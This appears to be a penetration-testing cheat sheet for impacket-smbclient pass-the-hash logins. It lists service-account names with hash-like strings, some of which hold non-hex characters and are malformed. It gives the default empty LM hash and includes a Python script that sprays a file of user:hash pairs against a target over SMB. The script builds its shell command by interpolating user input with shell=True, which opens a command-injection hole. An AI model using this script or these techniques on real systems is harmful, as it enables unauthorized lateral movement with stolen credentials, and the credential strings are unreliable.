 # impacket-smbclient

```bash
impacket-smbclient subdomain.subdomain.subdomain.domain.com/svc-helpdsk::b2a93fs1e4a9c8d4f2f2d91e0a1b5e6c1-55:13fa8dfb2f0a3ce91b3f1e9a2ac3f02d
subdomain.subdomain.subdomain.domain.com/svc-adm::5e3b2f9d8c4a9e2c3f1a0b2e1d3c9sf04-73:c8e7a39d1f0b92d1cefb3a8d2af1bc93
subdomain.subdomain.subdomain.domain.com/svc-callcent::9f4d2e8b3a1c9d0f8e1as2b3c0d9e8f12-41:ad2e3c1b4f9a0c3e1f9e0b8a3dfc4e7a
subdomain.subdomain.subdomain.domain.com/svc-engine::4c0d9f8b1e2a3b4c9f0es8d2b3a7c1e6d-62:0af3bd2c1f8e9c3d2e1a0f4c8b3a9d17
@[IP] -hashes [LMHASH]:[NTHASH]
```

##### Default LM hash
```bash
aad3b435b51404eeaad3b435b51404ee
```

## impacket hash file parser
- requires the usernames and hashes to be in the same working directory as the script
	- user_and_hash.txt
- prompts for IP and domain
- uses ":" as a delimiter
- EXAMPLE USER:HASH 

##### Code
```python
import subprocess
import time

def execute_impacket(domain, username, ip_address, hash):
    command = f'impacket-smbclient {domain}/{username}@{ip_address} -hashes {hash}'
    result = subprocess.run(command, shell=True, capture_output=True, text=True)
    print(result.stdout)

domain = input("Domain: ")
ip_address = input("IP address: ")
file_path = "user_and_hash.txt"

with open(file_path, 'r') as file:
    for line in file:
        username, hash_value = line.strip().split('::')
        execute_impacket(domain, username, ip_address, hash_value)
        time.sleep(4)
```
